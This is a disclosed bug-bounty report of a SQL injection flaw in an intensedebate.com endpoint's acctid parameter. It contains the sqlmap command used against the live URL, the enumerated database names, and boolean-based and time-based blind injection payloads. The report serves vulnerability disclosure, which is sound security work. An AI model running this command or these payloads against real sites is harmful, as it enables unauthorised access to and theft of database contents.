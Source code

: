 # SQL Injection  intensedebate.com

## Report Details
- **Report ID**: 1069561
- **URL**: https://hackerone.com/reports/1069561
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-01-01T06:11:37.412Z
- **Disclosed**: 2021-01-11T13:29:03.192Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
hello dear support

I have found SQL Injection on intensedebate.com
parameters injectable ?acctid=1
URL:https://www.intensedebate.com/js/importStatus.php?acctid=1

I'm used sqlmap to injection 
command 
sqlmap --url https://www.intensedebate.com/js/importStatus.php?acctid=1 --dbs
{F1140562}

available databases [3]:
[*] heartbeat
[*] id_comments
[*] information_schema

Parameter: acctid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: acctid=1 AND 1726=1726

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: acctid=1 AND (SELECT 8327 FROM (SELECT(SLEEP(5)))yrDl)

## Impact

An attacker can use SQL injection it to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.

## Attachments
- egerg.PNG
